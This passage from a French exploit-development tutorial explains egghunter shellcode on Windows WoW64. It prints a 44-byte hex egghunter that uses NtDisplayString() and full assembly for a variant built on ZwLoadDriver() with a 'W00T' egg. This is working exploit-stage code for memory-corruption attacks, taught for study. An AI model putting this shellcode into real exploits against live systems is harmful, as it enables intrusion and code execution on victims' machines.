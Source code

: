 La version hexa est la suivante:

```
6681CAFF0F33DB425253B3D65358B3C0648B1BFFD383C4045A3C0574E3B8743030778BFAAF75DEAF75DBFFE7
```

Cet __egghunter__ contient __44 bytes__, et utilise la fonction __NtDisplayString()__. Pour se rendre compte de son fonctionnement, il faut surtout prendre le temps de le debugger pour s'assurer de son efficacité.

Maintenant que l'on a compris comment fonctionne un __egghunter__ et que l'on a aussi comprit comment fonctionne le mécanisme __wow64__, on peut s'amuser à trouver d'autres syscall qui feraient l'affaire. Ainsi, plutôt que d'utiliser ce que tout le monde utilise: __NtDisplayString()__ ou __NtAccessCheckAndAuditAlarm()__, on peut se la jouer freestyle ^^

Ci-dessous un egghunter qui utilise __ZwLoadDriver()__:

```
loop_inc_page:
        or      dx, 0FFFh
 
loop_inc_one:
	xor 	ebx, ebx
        inc     edx
 
loop_check:
        push    edx
        push 	ebx
        mov	bx, 101h
        dec     ebx
        push 	ebx
        pop     eax
        xor 	ebx, ebx
        mov 	bl, 0C0h
        assume fs:nothing
        mov 	ebx,fs:[ebx]
        call 	ebx
        assume fs:error
        add 	esp, 4
        pop     edx
        cmp     al, 5
        
 
loop_check_8_valid:
        je      loop_inc_page

is_egg:
        mov     eax, 77303074h ; W00T
        mov     edi, edx
        scasd
        jnz     loop_inc_one
        scasd
        jnz     loop_inc_one
 
matched:
        jmp     edi
```

